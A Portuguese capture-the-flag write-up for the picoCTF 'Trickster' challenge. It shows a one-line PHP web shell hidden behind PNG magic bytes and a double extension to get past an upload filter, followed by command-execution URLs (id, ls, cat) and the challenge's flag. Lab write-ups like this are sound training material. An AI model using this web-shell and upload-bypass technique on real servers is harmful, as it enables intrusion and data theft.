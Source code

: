 # Trickster  
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Upload Arbitrário de Arquivos, Execução Remota de Código (RCE) e Exposição de Diretórios e Arquivos Sensíveis

## Sobre o Desafio

Encontrei um aplicativo da web que pode ajudar a processar imagens: apenas imagens PNG!<br>
Detalhes adicionais estarão disponíveis após o lançamento de sua instância de desafio.

- [Trickster](https://play.picoctf.org/practice/challenge/445) 

## Solução  

Abrimos a URL do desafio e identificamos uma funcionalidade de upload que aceita apenas arquivos .png.

![image](https://github.com/user-attachments/assets/1ad8aadb-93a2-428b-b7a2-7ae33bc847cc)

Criamos um arquivo yo.php com uma simples payload PHP `(<?=\$_GET[0]`?>`)`.

Tentamos enviá-lo, mas o servidor rejeitou, indicando que o nome do arquivo precisava conter .png.

![image](https://github.com/user-attachments/assets/5a513762-7cf8-4af4-8382-ff46da02f5dc)

Renomeamos o arquivo para yo.png.php e tentamos o upload novamente.
O servidor aceitou o nome, mas ainda rejeitou o arquivo dizendo que não era um PNG válido.

Pegamos os bytes mágicos do PNG (89 50 4E 47 0D 0A 1A 0A).
Criamos um arquivo base.png, abrimos em um editor hexadecimal e inserimos os bytes mágicos no início.
No final do arquivo, adicionamos a payload PHP (<?=\$_GET[0]`?>`).
Renomeamos para yo.png.php e fizemos o upload novamente.

Testamos diretórios comuns (/uploads/, /files/, /images/) e encontramos nosso arquivo em:

http://atlas.picoctf.net:62573/uploads/yo.png.php

Testamos a execução de código com ?0=id, confirmando o acesso

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=id

Listamos arquivos no diretório

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=ls ..

Encontramos GQ4DOOBVMMYGK.txt e lemos o conteúdo

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=cat%20../GQ4DOOBVMMYGK.txt


1
![image](https://github.com/user-attachments/assets/58157f2b-faf5-4fa4-8736-2362f4d855fd)

2
![image](https://github.com/user-attachments/assets/3b878932-f653-47d5-bef0-978a6afaa22f)

3
![image](https://github.com/user-attachments/assets/192391de-0113-44a6-ab5e-cec08305a643)

4
![image](https://github.com/user-attachments/assets/18837203-98d9-44d0-aac9-3c0bf62e7a3a)

5
![image](https://github.com/user-attachments/assets/23009445-c52c-47c7-a126-8084b6efd24d)

6
![image](https://github.com/user-attachments/assets/5fc90973-f63b-44b4-93d2-7496179895dc)

7
![image](https://github.com/user-attachments/assets/c443c4ff-015d-44cc-b707-d0aad97d8398)

8
![image](https://github.com/user-attachments/assets/f448d0dc-aa4d-44c9-a156-20f23310f1b9)

9
![image](https://github.com/user-attachments/assets/77bd82c3-e2cd-4150-a259-d26c06d14ac9)




> Assim, obtemos a flag `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}`  
